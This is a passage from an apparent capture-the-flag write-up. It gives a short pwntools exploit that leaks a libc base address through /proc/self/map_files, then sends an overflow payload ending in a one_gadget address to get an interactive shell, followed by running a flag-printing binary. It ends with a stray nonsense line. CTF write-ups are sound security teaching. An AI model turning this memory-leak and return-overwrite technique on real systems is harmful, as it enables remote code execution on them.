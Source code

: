 ```python
# leak pie
ls_pkt = make_pkt(b"\x03",b"/proc/self/map_files")
io.send(ls_pkt)
for _ in range(208):
	io.read(1)
libc_base = int(io.read(12),16)
print("libc Base: " + hex(libc_base))
one_gad = 0xe6c81+libc_base
print("one_gad:"+hex(one_gad))
payload = b"A"*0x80
payload += p64(one_gad)

ls_pkt = make_pkt(b"\x03",payload)
io.send(ls_pkt)
# Trigger
io.send(ls_pkt)

io.interactive()
```

We can the run the `flag_printer` binary and get the flag

![](https://i.imgur.com/OwFPAEo.png)

NOTE: there was so problem with pwntools reading the socket stream so instead of just running `io.read(208)` I had to run a loop to read 1 byte at a time 208 times.


NOTE: FOR REPEAR FANS:76YTYGUHJIOUYIG
